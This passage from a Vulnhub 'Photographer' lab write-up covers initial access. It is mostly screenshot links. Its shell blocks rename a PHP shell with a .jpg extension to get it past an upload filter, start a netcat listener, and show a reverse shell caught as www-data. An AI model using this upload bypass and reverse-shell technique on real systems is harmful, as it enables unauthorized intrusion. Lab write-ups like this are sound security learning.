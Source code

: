 ------
## Initial access

![Image](/assets/img/WriteUp/Vulnhub/Photographer/Pasted image 20230307175646.png){: width="700" height="400" }



```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Photographer]
└─$ cp shell.php shell.php.jpg  
```

![Image](/assets/img/WriteUp/Vulnhub/Photographer/Pasted image 20230307191052.png){: width="700" height="400" }


![Image](/assets/img/WriteUp/Vulnhub/Photographer/Pasted image 20230307191117.png){: width="700" height="400" }

![Image](/assets/img/WriteUp/Vulnhub/Photographer/Pasted image 20230307191200.png){: width="700" height="400" }

![Image](/assets/img/WriteUp/Vulnhub/Photographer/Pasted image 20230307191234.png){: width="700" height="400" }

![Image](/assets/img/WriteUp/Vulnhub/Photographer/Pasted image 20230307191307.png){: width="700" height="400" }

![Image](/assets/img/WriteUp/Vulnhub/Photographer/Pasted image 20230307191342.png){: width="700" height="400" }

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Photographer]
└─$ nc -lvp 1234                      
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234

```

![Image](/assets/img/WriteUp/Vulnhub/Photographer/Pasted image 20230307191512.png){: width="700" height="400" }

![Image](/assets/img/WriteUp/Vulnhub/Photographer/Pasted image 20230307191755.png){: width="700" height="400" }

![Image](/assets/img/WriteUp/Vulnhub/Photographer/Pasted image 20230307192115.png){: width="700" height="400" }

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Photographer]
└─$ nc -lvp 1234                      
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.2.26.
Ncat: Connection from 10.0.2.26:49152.
Linux photographer 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 13:20:46 up  1:22,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```
